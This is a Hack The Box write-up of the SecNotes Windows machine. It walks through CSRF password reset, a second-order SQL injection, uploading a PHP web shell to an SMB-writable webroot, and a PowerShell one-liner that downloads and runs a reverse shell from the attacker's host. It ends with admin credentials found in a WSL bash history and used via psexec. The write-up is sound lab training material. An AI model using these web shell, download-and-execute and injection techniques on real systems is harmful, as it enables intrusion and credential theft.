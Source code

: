 # Summary

SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

<details open>
<summary></summary>
  
* [External Enumeration](#external-enumeration)
* [Cross Site Request Forgery](#xsrf)
* [Initial Access](#initial-access)
* [Privilege Escalation](#privilege-escalation)
* [Second Order SQLI](#second-order-sqli)

</details>

## External Enumeration

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

## XSRF

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

## Initial Access

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver

<img src="images/webserve.png">

followed by a connection on my listener

<img src="images/hit.png">

## Privilege Escalation

Checking out `c:\users\tyler\desktop` we find `user.txt` but also an interesting file named `bash.lnk`. Reading the file we can pick out `bash.exe` in `c:\Windows\System32`. This usually indicates Windows Subsystem for Linux is installed. 

<img src="images/bashlnk.png">

I'll play around with `bash` and see what I can find in the Linux filesystem.

<img src="images/root.png">

We're root inside the Linux filesystem and find a `.bash_history` inside `/root`. Reading this file we find some admin credentials used over smb.

<img src="images/bashhist.png">

With these credentials I could mount `c$` on localhost as admin with `net use \\127.0.0.1\c$ /user:administrator u6!4ZwgwOM#^OBf#Nwnh` or I could use powershell's `Enter-PSSession` or I could use the credentials with impacket's `psexec` to get a shell. I'll /opt for psexec.

<img src="images/system32.png">

I get a shell returned as `NT AUTHORITY\SYSTEM`. From here I can read `root.txt` in `c:\users\administrator\desktop`

## Second Order SQLI

An SQLI occurs when user input is used directly in an SQL query in an unsafe way. A second order SQLI is when user input is stored in a database then retrieved and used as part of a later query in an unsafe way. Here, the register function uses prepared statements to separate user input from the query itself, as seen below. 

<img src="images/registersqli.png">

However when the notes are retrieved to be displayed on the home page, the username is directly concatenated into a SQL query. Therefore we can register a username which does our bidding when called in the query in `home.php`.

<img src="images/getnotes.png">

We can see that if we register the username `' or 1='1`, the above query becomes
```SELECT id, title, note, created_at FROM posts WHERE username='' or 1='1'```
Since mysql interprets `1='1'` as true, `'' or 1='1'` also evaluates to true, so we retrieve the notes for every user.

<img src="images/allnotes.png">


